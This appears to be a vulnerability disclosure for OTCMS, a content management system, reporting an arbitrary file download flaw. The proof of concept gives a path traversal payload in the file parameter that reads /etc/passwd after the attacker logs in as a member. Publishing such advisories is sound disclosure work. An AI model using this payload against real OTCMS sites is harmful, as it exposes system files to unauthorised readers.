



# OTCMS was discovered to contain an arbitrary file download vulenrability via the filename
## Description
    OTCMS was discovered to contain an arbitrary file download vulenrability via the filename
## Vendor Homepage
    http://otcms.com/

## Author
    HuBenLab
## Proof of Concept
Post an article after logging in as a member user.



Add additional parameters to the packet capture



payload

```
file=../../../../../../../../../../../../../etc/passwd&isRenameFile=1&fileName=1.php
```

Then it can be downloaded in the foreground to read the passwd file.

